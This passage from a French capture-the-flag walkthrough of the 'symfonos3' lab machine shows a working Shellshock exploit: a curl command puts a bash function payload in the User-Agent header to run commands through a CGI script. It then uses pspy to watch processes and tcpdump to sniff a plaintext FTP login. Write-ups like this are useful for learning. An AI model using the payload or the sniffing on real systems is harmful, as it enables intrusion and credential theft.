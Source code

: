 On peut alors adapter pour avoir une RCE. Notez que les paths sont être complets quand on appelle une commande qui n'est pas interne à bash :

```bash
$ curl -D- http://192.168.56.114/cgi-bin/underworld -H "User-Agent: () { :;}; echo; echo; /usr/bin/id;"
HTTP/1.1 200 OK
Date: Mon, 20 Feb 2023 22:03:26 GMT
Server: Apache/2.4.25 (Debian)
Transfer-Encoding: chunked


uid=1001(cerberus) gid=1001(cerberus) groups=1001(cerberus),33(www-data),1003(pcap)
```

On fait partie du groupe `pcap`... Intéressant.

Une fois un shell plus agréable obtenu je remarque que l'utilisateur `hades` fait partie du groupe `gods`.

```
uid=1000(hades) gid=1000(hades) groups=1000(hades),1002(gods)
```

Forcément ça donne envie :)

## De simple humain à dieu

Revenons à notre groupe pcap. Il doit y avoir un trafic réseau à sniffer et qui dit activité réseau dit processus.

J'ai surveillé ça avec [GitHub - DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy) :

```
2023/02/20 16:15:55 CMD: UID=0    PID=1      | /sbin/init 
2023/02/20 16:16:01 CMD: UID=0    PID=11107  | /usr/sbin/CRON -f 
2023/02/20 16:16:01 CMD: UID=0    PID=11106  | /usr/sbin/cron -f 
2023/02/20 16:16:01 CMD: UID=0    PID=11111  | /bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt 
2023/02/20 16:16:01 CMD: UID=0    PID=11110  | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
2023/02/20 16:16:01 CMD: UID=0    PID=11109  | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
2023/02/20 16:16:01 CMD: UID=0    PID=11108  | /bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt 
2023/02/20 16:16:02 CMD: UID=0    PID=11112  | proftpd: (accepting connections)               
2023/02/20 16:16:02 CMD: UID=0    PID=11113  | /usr/sbin/CRON -f 
2023/02/20 16:16:02 CMD: UID=105  PID=11114  | /usr/sbin/sendmail -i -FCronDaemon -B8BITMIME -oem root 
2023/02/20 16:16:02 CMD: UID=0    PID=11115  | /usr/sbin/exim4 -Mc 1pUES2-0002tF-31
```

Je lance la surveillance du port FTP :

```bash
cerberus@symfonos3:/tmp$ tcpdump -i any -x "tcp port 21"
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
--- snip ---
16:24:01.942666 IP localhost.49848 > localhost.ftp: Flags [P.], seq 1:13, ack 56, win 342, options [nop,nop,TS val 1376255 ecr 1376253], length 12: FTP: USER hades
        0x0000:  4500 0040 742a 4000 4006 c88b 7f00 0001
        0x0010:  7f00 0001 c2b8 0015 06cf 8bdf e1a9 68cc
        0x0020:  8018 0156 fe34 0000 0101 080a 0014 ffff
        0x0030:  0014 fffd 5553 4552 2068 6164 6573 0d0a
16:24:01.942673 IP localhost.ftp > localhost.49848: Flags [.], ack 13, win 342, options [nop,nop,TS val 1376255 ecr 1376255], length 0
        0x0000:  4500 0034 976d 4000 4006 a554 7f00 0001
```